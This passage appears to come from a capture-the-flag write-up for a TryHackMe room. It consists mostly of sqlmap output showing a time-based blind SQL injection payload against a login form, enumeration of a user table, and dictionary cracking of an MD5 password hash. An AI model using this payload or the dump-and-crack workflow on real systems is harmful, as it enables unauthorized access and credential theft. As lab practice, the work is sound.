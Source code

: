 ```
    Payload: username=test' AND (SELECT 1720 FROM (SELECT(SLEEP(5)))imDO) AND 'CRGb'='CRGb&password=test&submit=submit
---
[20:55:35] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 12.10 or 13.04 or 12.04 (Raring Ringtail or Quantal Quetzal or Precise Pangolin)
web application technology: Apache 2.2.22, PHP 5.3.10
back-end DBMS: MySQL >= 5.0.12
[20:55:35] [INFO] fetching columns for table 'user' in database 'THM_f0und_m3'
[20:55:35] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
[20:55:51] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
2
[20:56:05] [INFO] retrieved:
[20:56:11] [INFO] adjusting time delay to 3 seconds due to good response times
username
[20:57:45] [INFO] retrieved: password
[20:59:39] [INFO] fetching entries for table 'user' in database 'THM_f0und_m3'
[20:59:39] [INFO] fetching number of entries for table 'user' in database 'THM_f0und_m3'
[20:59:39] [INFO] retrieved: 2
[20:59:50] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
[21:00:16] [INFO] adjusting time delay to 2 seconds due to good response times
05f3672ba34409136aa71b8d00070d1b
[21:05:25] [INFO] retrieved: DesKel
[21:06:29] [INFO] retrieved: He is a nice guy, say hello for me
[21:12:38] [INFO] retrieved: Skidy
[21:13:29] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[21:13:29] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[21:13:29] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[21:13:29] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[21:13:29] [INFO] starting 8 processes
[21:13:33] [INFO] cracked password 'cutie' for user 'DesKel'
Database: THM_f0und_m3
Table: user
[2 entries]
+------------------------------------------+----------+
| password                                 | username |
+------------------------------------------+----------+
| 05f3672ba34409136aa71b8d00070d1b (cutie) | DesKel   |
| He is a nice guy, say hello for me       | Skidy    |
+------------------------------------------+----------+

[21:13:41] [INFO] table 'THM_f0und_m3.`user`' dumped to CSV file '/root/.local/share/sqlmap/output/ip.thm/dump/THM_f0und_m3/user.csv'
[21:13:41] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/ip.thm'

[*] ending @ 21:13:41 /2022-09-04/
```
![image](https://user-images.githubusercontent.com/6504854/188316742-64a7a9c5-01ac-4018-aa38-c885ea38277d.png)
